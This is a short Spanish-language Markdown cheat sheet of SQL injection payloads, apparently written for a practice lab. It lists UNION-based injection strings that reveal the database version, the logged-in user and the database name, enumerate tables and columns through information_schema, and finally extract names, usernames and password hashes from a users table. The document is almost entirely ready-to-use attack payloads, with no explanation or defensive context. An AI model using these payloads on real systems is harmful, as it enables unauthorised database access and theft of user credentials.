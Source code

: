 # Vulnerability: SQL injection
### Obtener el nombre de usuario y versión de base de datos
%' or 0=0 union select null, version() # 
###  Obtener el usuario logeado 
- %' union select null, user() #
- %' union select user(), version() #
### Obtener la base de datos
- %' union select null, database() #
### Obtener las tablas
- %' union select null, table_name from information_schema.tables #
- %' union select null, table_name from information_schema.tables where table_name like 'user%'#
- %' union select null, concat(table_name,0x0a ,column_name) from information_schema.columns where table_name = 'users'#
- %' union select null, concat(first_name,0x0a ,last_name,0x0a ,user,0x0a ,password) from users#
